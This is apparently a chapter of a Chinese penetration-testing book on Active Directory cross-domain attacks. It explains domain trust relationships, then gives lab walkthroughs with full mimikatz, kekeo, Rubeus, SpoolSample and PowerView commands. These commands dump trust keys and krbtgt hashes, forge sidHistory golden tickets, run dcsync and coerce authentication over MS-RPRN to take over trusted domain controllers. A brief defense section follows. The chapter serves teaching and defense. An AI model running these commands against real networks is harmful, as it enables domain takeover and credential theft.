

# 【第七章】跨域攻击分析与防御

很多大型企业都拥有自己的内网，一般通过域林进行共享资源。根握不同职能区分的部门，**从逻辑上以主域和子域进行划分**，方便统一管理。**在物理层，通常使用防火墙将各个子公司及各个部门划分为不同的区域**。攻击者如果得到了某个子公司或者某个部门的域控制器权限,但没有得到整个公司的内网全部权限，往往会想办法获取其他部门或者域的权限。因此,在部署网络边界时，如果能了解攻击者是如何对现有网络进行跨域攻击的，就可以更安全地部署内网环境、更有效地防范攻击行为。

**跨域攻击方法分析**

常见的跨域攻击方法有:常规渗透方法（例如利用 Web漏洞跨域获取权限\);利用已知域散列值进行哈希传递攻击或票据传递攻击\(例如域控制器本地管理员密码可能相同\);利用域信任关系进行跨域攻击。

**利用域信任关系的跨域攻击分析**

域信任的作用是解决多域环境中的跨域资源共享问题。

域环境不会无条件地接收来自其他域的凭证，只会接收来自受信任的域的凭证。在默认情况下,特定 Windows域中的所有用户都可以通过该域中的资源进行身份验证。通过这种方式,域可以为其用户提供对该域中所有资源的安全访问机制。如果用户想要访问边界以外的资源,需要使用域信任。

**域信任作为域的一种机制，允许另一个域的用户在通过身份验证后访问本域中的资源**。同时，域信任利用 DNS 服务器定位两个不同子域的域控制器，如果两个域中的域控制器都无法找到另一个域，也就不存在通过域信任关系讲行跨域资源共享了。

**域信任关系简介**

域信任关系分为单向信任和双向信任两种。

- 单向信任是指在两个域之间创建单向的信任路径，即在一个方向上是信任流，在另一个方向上是访问流。在受信任域和信任域之间的单向信任中,受信任域内的用户\(或者计算机）可以访问信任域内的资源，但信任域内的用户无法访问受信任域内的资源。也就是说,若A域信任B域,那么B域内受信任的主体可以访问A域内信任B域的资源。
- 双向信任是指两个单向信任的组合,信任域和受信任域彼此信任，在两个方向上都有信任流和访问流。这意味着，可以从两个方向在两个域之间传递身份验证请求。活动目录中的所有域信任关系都是双向传递的。在创建子域时，会在新的子域和父域之间自动创建双向可传递信任关系，从下级域发出的身份验证请求可以通过其父域向上流向信任域。

域信任关系也可以分为内部信任和外部信任两种

- 在默认情况下,使用活动目录安装向导将新域添加到域树或林根域中，会自动创建双向可传递信任。在现有林中创建域树时，将建立新的树根信任，当前域树中的两个或多个域之间的信任关系被称为内部信任。这种信任关系是可传递的。例如，有三个子域BA,CA,DA,BA域信任CA域，CA域信任DA域，则BA域也信任DA域。
- **外部信任是指两个不同林中的域的信任关系**

从Windows server 2003域信任关系变为双向的，且可以通过信任关系进行传递。在Windows操作系统中，**只有Domain Admins组中的用户可以管理域信任关系**。

**获取域信息**

在域中，Enterprise Admins组（仅出现在林的根域中\)的成员具有对目录林中所有域的完全控制权限。在默认情况下,该组包含林中所有域控制器上具有 Administrators权限的成员。

在这里要使用LG.exe工具。LG.exe是一款使用C\+\+编写的用于管理本地用户组和域本地用户组的命令行工具。在渗透测试中使用该工具，可以枚举远程主机用户和组的信息。

```
whoami /all    查看lab域内计算机的当前权限
LG.exe lab\.    枚举lab域中的用户组
LG.exe \\dc    枚举远程机器的本地组用户
需要两域存在域信任关系，且当前权限被另一个域信任
LG.exe \\dc -lu
lg \\dc -lu -sidsout    获取远程系统中全部用户的SID
lg \\dc\administrators -sidsout    获取指定组中的SID
```

**利用域信任密钥获取目标域的权限**

首先，搭建符合条件的域环境。域林内信任环境的具体情况如下

父域的域控制器: pentest.lab \( Windows Server 2012 R2 \)。

子域的域控制器: us.pentest.lab\( Windows Server 2012 R2 \)。

子域内的计算机: [pc.us.pentest.test.com](http://pc.us.pentest.test.com/) \( Windows 7\)。

子域内的普通用户: us\\test

在本实验中，使用mimikatz在域控制器中导出并伪造信任密钥，使用kekeo请求访问目标域中目标服务的TGS票据。使用这两个工具，渗透测试人员便可以创建具有sidHistory 的票据，对目标域进行安全测试。

在[us.pentest.lab.com](http://us.pentest.lab.com/)中使用mimikatz获取需要的信息，命令如下。

```
mimikatz.exe privilege::debug "lsadump::lsa /patch /user:test$" "lsadump::trust /patch" exit
```



①当前域SID

②目标域SID

③信任密钥

获取信息后，在域内计算机\( [pc.sub.test.com](http://pc.us.pentest.test.com/) \)中使用普通域用户权限\( sub\\test \)执行即可。

使用mimikatz创建信任票据

```
mimikatz "Kerberos::golden /domain:sub.test.com /sid S-1-5-21-3265761439-1148378407-2742098900 /sids:S-1-5-21-2850215151-526022293-2118279608  /rc4:3e0208a9073c8be3801600f311457fcd    /user:DarthVader /service:krbtgt /target:pentest.lab /ticket:test.kirbi" exit
```

domain 参数用于指定当前域名; sid 参数用于指定当前域的SID; sids 参数用于指定目标域的SID\(在本实验中为519，表示渗透测试人员创建的用户属于目标域的管理员组\); rc4 参数用于指定信任密钥; user 参数用于指定伪造的用户名; service 参数用于指定要访问的服务; target 参数用于指定目标域名; ticket 参数用于指定保存票据的文件名。需要注意的是，第一次访问域控制器时的提示文字重复是由mimikatz执行时的输出异常造成的。


利用刚刚创建的名为test.kirbi的信任票据获取域中目标服务的TGS并保存到文件中。

```
Asktgs test.kirbi CIFS/pentest.pentest.lab
```

将获取的TGS票据注入内存

```
Kirbikator lsa CIFS.pentest.pentest.lab.kirbi
```

访问目标服务

```
dir \\dc.test.com\C$
```

**利用krbtgt散列值获取目标域的权限**

使用mimikatz,可以在构建黄金票据时设置sidHistory。因此，**如果攻击者获取了林内任意域的krbtgt散列值，就可以利用sidHistory获得该林的完整权限**。下面我们就来分析这一过程。首先，使用PowerView在域内计算机\( [pc.sub.test.com](http://pc.sub.test.com/) \)中使用普通域用户\( sub\\test \)权限获取当前域和目标域的SID。获取域用户SID的常用命令有"wmic useraccount get name,sid" "whoami/user" "adfind.exe \-sc u:test|findstr sid" "powerview"。

在域控制器上使用mimikatz获取krbtgt 散列值。

```
mimikatz.exe privilege::debug "lsadump::lsa /patch /user:krbtgt" sekurlsa::krbtgt exit
或者
sekurlsa::krbtgt
```

在子域内的计算机上使用普通用户权限\(sub\\test\)构造并注入黄金票据，获取目标域的权限。

```
mimikatz "Kerberos::golden /user:Administrator /domain:sub.test.com /sid:**** /sids:***** /krbtgt:**** /ptt" exit
```

user参数用于指定用户名: domain参数用于指定当前域名: sid参数用于当前城的SID; sids参数用于指定目标域的SID\(在本实验中为519，代表渗透测试人员创建的户属于目标域的管理员组\): krbtgt 参数指定krbtgt散列值: ptt 表示将票据往人内存。

输人如下命令，访问目标服务

```
dir \\dc.test.com\C$
```

**外部信任和林信任**

在本实验中，林信任环境的情况如下。

当前林的城控制器: [dc.a.com](http://dc.a.com/) \( Windows Server 2012 R2\).

目标林的域控制器: bdc. b.com \( Windows Server 2012 R2 \)

当前域的域控制器: [adc1.a.com](http://adc1.a.com/) \( WindowServer 2012 R2\)

目标域的城控制器: [bdc1.b.com](http://bdc1.b.com/) \( Windows Sever 212\)

外部信任环境的信任关系

```
nltest /domain_trusts
```

- 利用信任关系获取信任域的信息

因为外部信任和林信任中存在SID过滤机制，所以无法利用SID History获取权限。

在本实验中，使用adfind 工具\(域查询工具，下载[https://www.softpedia.com/get/Programming/Other\-Programming\-Files/AdFind.shtml](https://www.softpedia.com/get/Programming/Other-Programming-Files/AdFind.shtml) \)获取信任域的完整信息。下面以获取Administrator用户的详细信息

输入如下命令，导出全部用户的信息

```
adfind -h bdc1.b.com -sc u:Administrator
```

通过对比目标域和当前域的用户列表，找出同时加入这两个域的用户。

- 使用PowerView定位敏感用户

执行如下命令，列出目标域用户组中的外部用户

```
..\PowerView.ps1
Get-DomainForeignGroupMember -Domain B.com
```

**利用无约束委派和MS\-RPRN获取信任林权限**

如果攻击者已经获取了域林中某个域权限，或者配置了无约束委派的任何服务器的权限，就可以使用MS RPRN的RpcRemoteFindPrinterChangeNotification\(Ex\)方法，**使信任林的域控制器向已被控制的服务器发送身份认证请求，利用捕获的票据获取信任林内任意用户的散列值**。

下面通过一个实验来分析。

首先，输人下列命令，在[dc.a.com](http://dc.a.com/)上使用rubeus工具（[https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)）监控身份认证请求。interval用于设置健康的时间间隔，filteruser指定需要关注的用户。

```
Rubeus.exe monitor /interval:5 /filteruser:BDC$
```

开启监听后，在命令行环境中执行如下命令，使用SpoolSample工具\([https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)\)让目标域控制器[bcd.b.com](http://bcd.b.com/)向[dc.a.com](http://dc.a.com/)发送身份认证请求

```
SpoolSample.exe bdc.b.com dc.a.com
```

此时，rubeus 会捕捉来自[bdc.b.com](http://bdc.b.com/)的认证请求，保存其中的TGT数据。

清除TGT数据文件中多余的换行符，将票据注入

```
Rubeus.exe ptt /ticket:<TGT数据>
```

使用mimikatz获取目标域的kebtgt散列值。使用mimikatz的dcsync模拟域控制器向目标域控制器发送请求（获取账号密码）。

mimikatz.exe "lsadump::dcsync /domain:B.com /user:B\\krbtgt" exit

构造黄金票据将其注入内存，获取目标域控制器的权限。

```
mimikatz.exe "Kerberos::golden /user:Administrator /domain:B.com /sid:    /rc4:    /ptt" exit
```

访问目标服务

```
dir \\bdc.b.com\C$
```

**防范跨域攻击**

内网中的Web应用比公网中的Web应用更脆弱。放置在公网中的Web应用服务器住往会配置WAF等设备，还会有专业的维护人员定期进行安全检测。放置在内网中的Web应用服务器大多为内部办公使用\(或者作为测试服务器使用\)，所以，其安全性受重视程度较低，往往会使用弱口令或者存在未及时修复的补丁。

攻击者在获取当前域的域控制器的权限后，会检查城控制器的本地管理员密码是否与其他的域控制器本地管理员密码相同，以及在两个域之间的网络没有被隔离的情况下是否可以通过哈希传递进行横向攻击等。在很多公司中，虽然为不同的部门划分了不同的域，但域管理员可能是同一批人，因此可能出现域管理员的用户名和密码相同的情况。在日常网络维护中，需要养成良好的安全习惯，才能有效地防范跨域攻击。
